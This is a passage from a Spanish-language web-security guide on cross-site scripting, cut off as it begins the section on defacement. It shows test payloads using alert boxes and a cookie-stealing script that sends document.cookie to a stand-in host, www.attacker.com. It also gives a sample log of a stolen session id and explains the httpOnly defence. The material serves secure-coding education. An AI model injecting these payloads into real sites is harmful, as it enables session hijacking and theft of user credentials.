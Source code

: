 El lenguaje XSS más común es, por supuesto, el lenguaje de secuencias de comandos del lado del cliente más popular, JavaScript, a menudo en combinación con HTML. _Escapar la entrada del usuario es esencial_.

Aquí está la prueba más sencilla para comprobar si hay XSS:

```html
<script>alert('Hola');</script>
```

Este código JavaScript simplemente mostrará un cuadro de diálogo de alerta. Los siguientes ejemplos hacen exactamente lo mismo, solo que en lugares muy poco comunes:

```html
<img src="javascript:alert('Hola')">
<table background="javascript:alert('Hola')">
```

##### Robo de cookies

Hasta ahora, estos ejemplos no causan ningún daño, así que veamos cómo un atacante puede robar la cookie del usuario (y así secuestrar la sesión del usuario). En JavaScript, puedes usar la propiedad `document.cookie` para leer y escribir la cookie del documento. JavaScript aplica la misma política de origen, lo que significa que un script de un dominio no puede acceder a las cookies de otro dominio. La propiedad `document.cookie` contiene la cookie del servidor web de origen. Sin embargo, puedes leer y escribir esta propiedad si incrustas el código directamente en el documento HTML (como ocurre con XSS). Inyecta esto en cualquier lugar de tu aplicación web para ver tu propia cookie en la página de resultados:

```html
<script>document.write(document.cookie);</script>
```

Para un atacante, por supuesto, esto no es útil, ya que la víctima verá su propia cookie. El siguiente ejemplo intentará cargar una imagen desde la URL http://www.attacker.com/ más la cookie. Por supuesto, esta URL no existe, por lo que el navegador no muestra nada. Pero el atacante puede revisar los archivos de registro de acceso de su servidor web para ver la cookie de la víctima.

```html
<script>document.write('<img src="http://www.attacker.com/' + document.cookie + '">');</script>
```

Los archivos de registro en www.attacker.com se leerán así:

```
GET http://www.attacker.com/_app_session=836c1c25278e5b321d6bea4f19cb57e2
```

Puedes mitigar estos ataques (de manera obvia) agregando la marca **httpOnly** a las cookies, de modo que `document.cookie` no pueda ser leído por JavaScript. Las cookies de solo HTTP se pueden utilizar a partir de IE v6.SP1, Firefox v2.0.0.5, Opera 9.5, Safari 4 y Chrome 1.0.154 en adelante. Sin embargo, otros navegadores más antiguos (como WebTV e IE 5.5 en Mac) pueden hacer que la página no se cargue correctamente. Ten en cuenta que las cookies [aún serán visibles utilizando Ajax](https://owasp.org/www-community/HttpOnly#browsers-supporting-httponly), sin embargo.

##### Desfiguración

Con la desfiguración de páginas web, un atacante puede hacer muchas cosas, por ejemplo, presentar información falsa o atraer a la víctima al sitio web del atacante para robar la cookie, las credenciales de inicio de sesión u otros datos sensibles. La forma más popular es incluir código de fuentes externas mediante iframes:
